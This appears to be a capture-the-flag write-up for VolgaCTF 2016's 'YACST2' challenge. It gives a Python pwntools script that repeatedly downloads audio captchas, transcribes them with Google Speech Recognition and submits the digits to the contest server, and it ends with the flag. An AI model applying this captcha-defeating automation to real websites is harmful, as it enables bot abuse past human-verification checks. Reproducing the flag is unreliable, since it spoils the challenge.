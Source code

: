 #YACST2

> Captcha is a modern simple Turing test for everyday use, for human
> it's simple, but for bot or a simple neural network captcha can become
> a hard nut to crack.
> 
> You can try to solve it with your AI too, but it definitely can be
> solved with several lines of code, isn’t it?
> 
> [link](http://yacst2.2016.volgactf.ru:8090/)
> 
> Hints
> 
> [gist](https://gist.github.com/volalex/799789663f8c29f1bb58)
> 
> [gist2](https://gist.github.com/volalex/4c62beaa721807dbc139) Adding a
> Noise

**Algorithm**

1. Send request to the site, get remaining number of captchas.
2. Download captcha using **curl** (don't ask me why!).
3. Send it to the *Google Speech Recognizer* using python module **speech_recognition**
4. Send numbers to the server.
5. Repeat until you receive flag.



    from pwn import *
    import speech_recognition as sr
    import re
    import os
    import numpy as np
    import wave
    from time import sleep
    import time
    
    def send_http(r, Q):
        for q in Q:
            r.send(q)
    
    r = sr.Recognizer()
    
    
    Q_MAIN = [
        "GET / HTTP/1.1\n",
        "Host: yacst2.2016.volgactf.ru\n",
        "Cookie: JSESSIONID=Kf0nf9fkvCjrxwx9D1dg8B6CobY_Ptl0hBQpk123\n", # our token
        "\n"
    ]
    
    Q_CAPTCHA = 'curl -s --cookie "JSESSIONID=Kf0nf9fkvCjrxwx9D1dg8B6CobY_Ptl0hBQpk123" http://yacst2.2016.volgactf.ru:8090/captcha > cap.wav'
    # http://yacst2.2016.volgactf.ru/captcha
    
    
    times = 3000
    while times > 0:
        try:
	        # reconnect every time, to prevent any drops or any disgusting things
            W = remote("yacst2.2016.volgactf.ru", 8090)
            
            send_http(W, Q_MAIN)
    
            response = W.recv()
            try:
	            # try to parse how many times left
                times = int(re.search("\<\/a\> \- (\d+) times", response).groups()[0])
            except:
                pass
    
		    # download captcha
            os.system(Q_CAPTCHA)
    
		    # each captcha influenced by noise (30..220 Hz)
		    # here I tried to filter it. But Google Speech 
		    # recognition worked well without any preprocessing
            '''
            wr = wave.open("cap.wav", 'r')
            ww = wave.open('captcha.wav', 'w')
    
            wi = wr.getsampwidth()
    
            if wi == 1:
                wi = np.uint8
            elif wi == 2:
                wi = np.int16
    
            sz = wr.getframerate()
            pars = list(wr.getparams())
    
            ww.setparams(tuple(pars))
    
            low = 300  # Hz
            c = int(wr.getnframes()/sz)
            for num in range(c):
                da = np.fromstring(wr.readframes(sz), dtype=wi)
                fb = np.fft.rfft(da)
                fb[:low] = 0
                fa = np.fft.irfft(fb)
                fa = fa.astype(wi)
                ww.writeframes(fa.tostring())
    
            wr.close()
            ww.close()
            '''
    
            with sr.WavFile("cap.wav") as source:
                audio = r.record(source)
    
            # recognize speech using Google Speech Recognition
            try:
                numbers = r.recognize_google(audio)
                print "Times:", times, "Numbers:", numbers
                Q_CAPTCHA_SEND = [
                    "POST /captcha HTTP/1.1\n",
                    "Host: yacst2.2016.volgactf.ru:8090\n",
                    "Content-Length: 13\n",
                    "Cache-Control: max-age=0\n",
                    "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\n",
                    "Origin: http://yacst2.2016.volgactf.ru:8090\n",
                    "Upgrade-Insecure-Requests: 1\n",
                    "User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.87 Safari/537.36\n",
                    "Content-Type: application/x-www-form-urlencoded\n",
                    "Referer: http://yacst2.2016.volgactf.ru:8090/\n",
                    "Accept-Encoding: gzip, deflate\n",
                    "Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.6,en;q=0.4,uk;q=0.2\n",
                    "Cookie: JSESSIONID=Kf0nf9fkvCjrxwx9D1dg8B6CobY_Ptl0hBQpk123\n", # OUR TOKEN
                    "\n",
                    "captcha="+numbers+"\n",
                ]
    
                send_http(W, Q_CAPTCHA_SEND)
    
			    # server sends 302 redirect, so we have to 
			    # resend data to the / 
                request = W.recv()
    
                Q_CAPTCHA_SEND = [
                    "POST / HTTP/1.1\n",
                    "Host: yacst2.2016.volgactf.ru:8090\n",
                    "Content-Length: 13\n",
                    "Cache-Control: max-age=0\n",
                    "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\n",
                    "Origin: http://yacst2.2016.volgactf.ru:8090\n",
                    "Upgrade-Insecure-Requests: 1\n",
                    "User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.87 Safari/537.36\n",
                    "Content-Type: application/x-www-form-urlencoded\n",
                    "Referer: http://yacst2.2016.volgactf.ru:8090/\n",
                    "Accept-Encoding: gzip, deflate\n",
                    "Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.6,en;q=0.4,uk;q=0.2\n",
                    "Cookie: JSESSIONID=Kf0nf9fkvCjrxwx9D1dg8B6CobY_Ptl0hBQpk123\n",
                    "\n",
                    "captcha="+numbers+"\n",
                ]
                
                # resend captcha
                send_http(W, Q_CAPTCHA_SEND)
    
                W.close()
    
            except sr.UnknownValueError:
                print("Google Speech Recognition could not understand audio")
            except sr.RequestError as e:
                print("Could not request results from Google Speech Recognition service; {0}".format(e))
        except Exception as e:
            print "EXCEPTION\n", e
            sleep(1)


But last captcha I had to solve by myself.

Flag is:

> VolgaCTF{Sound IS L1ke M@th if A+B=C THEN C-B=A}
